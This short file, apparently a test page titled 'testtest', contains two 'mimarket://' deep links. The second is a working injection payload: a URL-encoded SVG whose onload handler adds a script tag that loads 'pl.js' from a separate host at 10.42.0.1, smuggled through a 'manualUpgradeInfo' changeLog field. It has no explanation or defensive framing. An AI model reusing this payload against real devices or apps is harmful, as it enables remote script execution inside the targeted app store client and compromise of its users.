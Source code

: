# testtest


mimarket://browse?title=aaa&url=target

mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo={"changeLog":"<svg onload%3D\"javascript:j%3Ddocument.createElement('script');j.src%3D'http://10.42.0.1/pl.js';document.getElementsByTagName('head')[0].appendChild(j);\" xmlns%3D\"http://www.w3.org/2000/svg\"></svg>"}&title=butts
